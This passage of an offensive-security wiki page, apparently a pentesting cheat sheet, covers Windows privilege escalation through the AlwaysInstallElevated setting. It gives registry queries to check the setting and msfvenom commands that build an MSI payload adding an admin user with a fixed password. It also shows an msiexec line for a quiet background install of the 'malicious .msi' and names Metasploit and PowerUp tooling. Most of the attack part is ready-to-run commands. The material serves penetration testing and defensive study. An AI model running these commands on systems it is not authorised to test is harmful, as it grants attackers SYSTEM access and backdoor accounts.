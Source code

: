 You can exploit this vulnerability using the tool [**WSUSpicious**](https://github.com/GoSecure/wsuspicious) (once it's liberated).

## AlwaysInstallElevated

**If** these 2 registers are **enabled** (value is **0x1**), then users of any privilege can **install** (execute) ** `*.msi`** files as NT AUTHORITY\\**SYSTEM**.

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Metasploit payloads

```bash
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted
```

If you have a meterpreter session you can automate this technique using the module **`exploit/windows/local/always_install_elevated`**

### PowerUP

Use the `Write-UserAddMSI` command from power-up to create inside the current directory a Windows MSI binary to escalate privileges. This script writes out a precompiled MSI installer that prompts for a user/group addition (so you will need GIU access):

```
Write-UserAddMSI
```

Just execute the created binary to escalate privileges.

### MSI Wrapper

Read this tutorial to learn how to create a MSI wrapper using this tools. Note that you can wrap a "**.bat**" file if you **just** want to **execute** **command lines**

- [msi-wrapper.md](msi-wrapper.md)

### Create MSI with WIX

- [create-msi-with-wix.md](create-msi-with-wix.md)

### MSI Installation

To execute the **installation** of the **malicious `.msi` ** file in **background:**

```
msiexec /quiet /qn /i C:\Users\Steve.INFERNO\Downloads\alwe.msi
```

To exploit this vulnerability you can use: _exploit/windows/local/always\_install\_elevated_
